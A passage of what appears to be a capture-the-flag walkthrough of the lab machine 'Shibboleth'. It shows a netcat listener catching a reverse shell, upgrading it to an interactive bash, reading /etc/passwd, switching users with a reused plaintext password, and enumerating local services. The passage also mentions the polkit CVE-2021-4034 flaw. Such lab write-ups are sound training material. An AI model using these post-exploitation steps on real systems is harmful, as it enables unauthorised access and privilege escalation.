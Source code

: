 ### zabbix user

<br>
I did some shell upgrading with python and exporting TERM to give me some basic
shell features like clear screen or up arrow to run past commands.

```bash
➜  exploits rlwrap nc -nvlp 9090
listening on [any] 9090 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.11.124] 58344
sh: 0: can't access tty; job control turned off
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export TERM=xterm-256color
zabbix@shibboleth:/$
[1]  + 19511 suspended  rlwrap nc -nvlp 9090
➜  exploits stty raw -echo; fg;                
[1]  + 19511 continued  rlwrap nc -nvlp 9090
zabbix@shibboleth:/$

```

I did some basic enumeration of the box checking sudo version, lsb_release for kernel exploits,
proccess infomation with ss -tulpn. Nothing was interesting, so I looked for other users
in /etc/passwd.

```bash
cat /etc/passwd | grep -vE "false|nologin"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
```

### impi-svc user

impi-svc user interesting... I just logged in the zabbix server with the ipmi credentials
I found earlier maybe there's some password reuse going on here and I can just su over.

```bash
su - ipmi-svc
ilovepumkinpie1

id
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
ipmi-svc@shibboleth:~$
```

Nice got onto ipmi-svc account, hopefully this account has some more juicy info that I can
try to exploit. I did find vulnerable version of polkit (CVE-2021-4034) however I'm not gonna
use it because, that's to easy and I dont think thats the intended root priv esc for this box. So
I tried the same exact enumeration I did earlier but now on this account, maybe would get different
results. Enumerating processes I found 3306 - mysql.

```bash
ss -tulpn
Netid  State   Recv-Q  Send-Q   Local Address:Port    Peer Address:Port Process
udp    UNCONN  0       0        127.0.0.53%lo:53           0.0.0.0:*            
udp    UNCONN  0       0            127.0.0.1:161          0.0.0.0:*            
udp    UNCONN  0       0              0.0.0.0:623          0.0.0.0:*            
udp    UNCONN  0       0                [::1]:161             [::]:*            
tcp    LISTEN  0       4096     127.0.0.53%lo:53           0.0.0.0:*            
tcp    LISTEN  0       4096           0.0.0.0:10050        0.0.0.0:*            
tcp    LISTEN  0       4096           0.0.0.0:10051        0.0.0.0:*            
tcp    LISTEN  0       869          127.0.0.1:3306         0.0.0.0:*            
tcp    LISTEN  0       4096              [::]:10050           [::]:*            
tcp    LISTEN  0       4096              [::]:10051           [::]:*            
tcp    LISTEN  0       511                  *:80                 *:*
```